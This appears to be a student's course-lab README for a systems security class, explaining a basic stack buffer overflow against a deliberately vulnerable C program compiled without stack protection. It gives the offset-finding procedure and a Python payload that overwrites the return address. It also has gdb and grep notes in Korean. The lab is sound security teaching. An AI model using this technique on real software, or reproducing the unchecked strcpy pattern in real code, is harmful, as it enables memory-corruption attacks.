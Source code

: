 # washu_sp22_cse523
Systems Security course

## Table of contents
* [Lab1](https://github.com/kbckbc/washu_sp22_cse523/blob/main/lab1.md) : Useful linux command
* [Lab2](https://github.com/kbckbc/washu_sp22_cse523/blob/main/lab2.md) : 
* [Lab3](https://github.com/kbckbc/washu_sp22_cse523/blob/main/lab3.md) : Buffer over flow


## LAB3 - Buffer overflow, 2022-02-09

# Simple buffer overflow example

* What are we going to do?
This example shows that after call strcpy function, just exit program not returning to the point it was called.
To do that, we need to overwrite the return address of strcpy function.

* Overview of process 
1. Set a address you want to jump. In this example, we just want to find out the address where the program exit immediately. Later on, this address will be the address you want to execute!!
2. Find where the strcpy return address is.(It's a brute force method)
3. And then, run the c program with the user input which contains the address what you decided in Step 1.

* Steps in detail
1. Compile the c program below like this. '-z execstack' marks the stack as executable.
```
gcc -g -z execstack -fno-stack-protector ans_check5.c -o ans_check5
```

2. Execute below to find out the address we want to jump. As you can see, 0x080485b3 is the address we want to jump!
```
[02/09/22]seed@VM:Byeongchan$ objdump -D ans_check5 | grep -B 1 exit

08048400 <exit@plt>:
--
 80485b3:	6a 00                	push   $0x0
 80485b5:	e8 46 fe ff ff       	call   8048400 <exit@plt>
[02/09/22]seed@VM:Byeongchan$
```

3. Find out where the return address of strcpy function is! This is where brute force method comes in! Try like below changing the number of print count. If the program ended without printing 'About to exit!', that means return address was corrupted and the program was killed by the system.
```
[02/09/22]seed@VM:Byeongchan$ ./ans_check5 $(python -c "print '0'*47")
ans_buf is at address 0xbf88027c
Right answer!
About to exit!
Segmentation fault
[02/09/22]seed@VM:Byeongchan$ ./ans_check5 $(python -c "print '0'*48")
ans_buf is at address 0xbf8fe32c
Segmentation fault

```

4. Run like below. Python code will create meaning-less characters followed by exit return address. That return address will overwrite the return address of strcpy. If the program exit without 'Segmentation fault', then you found the right place!!!
```
ans_check5 $( python -c "print '\xAA'*48 + '\xb3\x85\x04\x08'") 
```


# ans_check5.c
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_answer(char *ans) {

  int ans_flag = 0;
  char ans_buf[32];

  printf("ans_buf is at address %p\n", &ans_buf);

  strcpy(ans_buf, ans);

  if (strcmp(ans_buf, "forty-two") == 0)
    ans_flag = 1;

  return ans_flag;

}

int main(int argc, char *argv[]) {

  if (argc < 2) {
    printf("Usage: %s <answer>\n", argv[0]);
    exit(0);
  }
  if (check_answer(argv[1])) {
    printf("Right answer!\n");
  } else {
    printf("Wrong answer!\n");
  }
  printf("About to exit!\n");
  fflush(stdout);
}
```





```



# grep -B 1 exit
-B 1 : exit 찾고 그것만 보여주지 말고 그 전에 한줄도 보여주란 옵션

# grep -A 1 exit
-A 1 : exit 찾고 그것만 보여주지 말고 그 에 한줄도 보여주란 옵션


# gcc -g -z execstack -fno-stack-protector ans_check5.c -o ans_check5
-z execstack : make stack executable



# gdb 옵션
-q : 시작시 설명문구 없이 시작

# break <line number> or <function name>
break : 중단점 걸기

# i b
break information 보기

# i r esp
i r : information register
  i r esp : esp 정보 보여줘

# x/32xw $esp
x : 메모리 조사하는 옵션  
o : 8진법으로 보여줌
x : 16진법으로 보여줌
u : 10진법으로 보여줌
t : 2진법으로 보여줌

b : 1 byte 단위로 보여줌(byte)
h : 2 byte 단위로 보여줌(half word)
w: 4 byte 단위로 보여줌(word) - 난 2byte로 알고 있지만 여기선 4바이트로 쓰이나 보다....
g : 8 byte 단위로 보여줌(giant)

i : 역어셈블된 명령어의 명령 메모리를 볼수 있음
c : ASCII 표의 바이트를 자동으로 볼 수 있다.
s : 문자 데이터의 전체 문자열을 보여준다.

  
```





